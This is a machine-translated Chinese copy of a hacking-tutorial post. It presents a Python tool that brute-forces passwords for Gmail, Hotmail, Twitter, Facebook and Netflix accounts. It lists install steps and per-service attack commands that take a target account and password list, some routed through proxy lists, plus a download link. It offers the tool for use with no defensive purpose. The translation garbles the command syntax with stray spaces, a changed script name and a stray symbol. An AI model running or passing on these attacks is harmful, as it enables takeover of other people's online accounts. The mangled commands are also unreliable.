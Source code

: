 # 暴力:暴力 Gmail、Hotmail、Twitter、脸书和网飞

> 原文：<https://kalilinuxtutorials.com/brute-force-gmail-hotmail-twitter-facebook-netflix/>

[![Brute Force : BruteForce Gmail, Hotmail, Twitter, Facebook & Netflix](img//7921db46cac7ff34184bec06168f054f.png "Brute Force : BruteForce Gmail, Hotmail, Twitter, Facebook & Netflix")](https://1.bp.blogspot.com/-4oHkpaUPFc0/XTGbBD3UMbI/AAAAAAAABcc/WlwkzNflZY4IvjbicKCm9uM_Iq8yzfOTQCLcBGAs/s1600/Brute_Force%25281%2529.png)

在这篇文章中，我们将看到如何暴力对待 Gmail、Hotmail、Twitter、脸书和网飞。首先让我们看看如何安装它；

![](img//17e1fe0272d6f0f0bbfdeab09fc80d83.png)

pip 安装代理列表
pip 安装机械化

**也可阅读-[JShielder:强化 Linux 服务器脚本/ Secure LAMP-LEMP 部署者/ CIS 基准 G](https://kalilinuxtutorials.com/jshielder-hardening-script/)**

**用途**

**暴力攻击 Gmail】**

python 3 Brute _ force . py-g Account@gmail.com-l 文件 _ 列表
python 3 Brute _ force . py-g Account@gmail.com-p 密码 _ 单

**暴力 Hotmail 攻击**

python 3 Brute _ force . py-t Account@hotmail.com-l 文件 _ 列表
python 3 Brute _ force . py-t Account@hotmail.com-p 密码 _ 单

**暴力推特攻击**

python 3 Brute _ force . py-T Account _ Twitter-l File _ list
python 3 Brute _ force . py-T Account _ Twitter-l File _ list-X proxy-list . txt

**脸书的武力进攻**

python 3 Brute _ force . py-f Account _ Facebook-l File _ list
python 3 Brute _ force . py-f Account _ Facebook-l File _ list-X proxy-list . txt

**网飞的武力进攻**

□VPN

python 3 raw _ force . py-n account _ Netflix-l file _ list
python 3 raw _ force . py-n account _ Netflix-l file _ list-x proxy-list . txt


[**Download**](https://github.com/Matrix07ksa/Brute_Force)